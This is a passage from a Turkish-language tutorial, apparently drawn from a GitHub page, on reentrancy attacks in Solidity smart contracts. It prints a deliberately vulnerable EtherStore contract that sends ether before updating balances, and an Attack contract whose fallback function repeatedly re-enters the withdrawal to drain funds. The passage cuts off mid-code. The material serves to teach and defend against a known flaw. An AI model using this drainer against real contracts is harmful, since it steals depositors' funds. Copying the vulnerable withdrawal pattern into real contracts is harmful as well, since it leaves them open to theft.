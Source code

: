 Bu saldırıyı açıklığa kavuşturmak için, mevduat sahiplerinin haftada sadece 1 ether çekmesine izin veren ve Ethereum kasası görevi gören basit savunmasız bir akıllı kontart olduğunu düşünün.

EtherStore.sol:
```solidity
contract EtherStore {

    uint256 public withdrawalLimit = 1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;

    function depositFunds() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawFunds (uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        // limit the withdrawal
        require(_weiToWithdraw <= withdrawalLimit);
        // limit the time allowed to withdraw
        require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
        require(msg.sender.call.value(_weiToWithdraw)());
        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = now;
    }
 }
```

Bu kontrat iki public fonksiyona sahip. `depositFunds()` ve `withdrawFunds()`. `depositFunds()` fonksiyonu en basit haliyle göndericinin (msg.sender) bakiyesini (balance) arttırır. `withdrawFunds()` fonksiyonu göndericinin wei cinsinden çekmek istediği tutarı belirlemesini ve o tutarı çekmesini sağlar. Bu fonksiyona göre sadece çekilmek istenen miktar 1 etherden az ise ve geçen hafta para çekme işlemi gerçekleşmediyse başarılı olacaktır. Peki ya gerçekten öyle mi?...

Güvenlik zafiyeti, kullanıcıya istediği miktarda etheri gönderdiğimiz \[17\] satırda açığa çıkıyor. Aşağıdaki akıllı kontratı oluşturan kötü niyetli bir saldırganı düşünün,

Attack.sol:
```solidity
import "EtherStore.sol";

contract Attack {
  EtherStore public etherStore;

  // initialise the etherStore variable with the contract address
  constructor(address _etherStoreAddress) {
      etherStore = EtherStore(_etherStoreAddress);
  }

  function pwnEtherStore() public payable {
      // attack to the nearest ether
      require(msg.value >= 1 ether);
      // send eth to the depositFunds() function
      etherStore.depositFunds.value(1 ether)();
      // start the magic
      etherStore.withdrawFunds(1 ether);
  }

  function collectEther() public {
      msg.sender.transfer(this.balance);
  }

  // fallback function - where the magic happens
  function () payable {
      if (etherStore.balance > 1 ether) {
          etherStore.withdrawFunds(1 ether);
```